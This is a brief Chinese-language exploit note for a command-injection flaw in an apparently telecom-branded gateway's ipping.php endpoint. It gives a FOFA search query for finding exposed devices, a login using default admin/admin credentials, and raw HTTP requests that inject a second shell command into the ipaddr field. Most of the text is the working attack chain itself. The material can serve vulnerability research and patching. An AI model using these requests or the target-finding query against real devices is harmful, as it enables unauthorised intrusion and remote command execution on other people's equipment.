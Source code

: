 ***\*fofa-qeury:body="a:link{text-decoration:none;color:orange;}"\****

1.获取cookie->默认密码登录->ipping.php接口命令执行得到结果

```

GET /manager/index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 21


POST /manager/login.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Cookie: {{phpsessid}}

Name=admin&Pass=admin


POST /manager/ipping.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Cookie: {{phpsessid}}

ipaddr=127.0.0.1;echo 237219737;
```

![image-20240729092933849](电信网关 ipping.php 命令执行漏洞.assets/image-20240729092933849.png)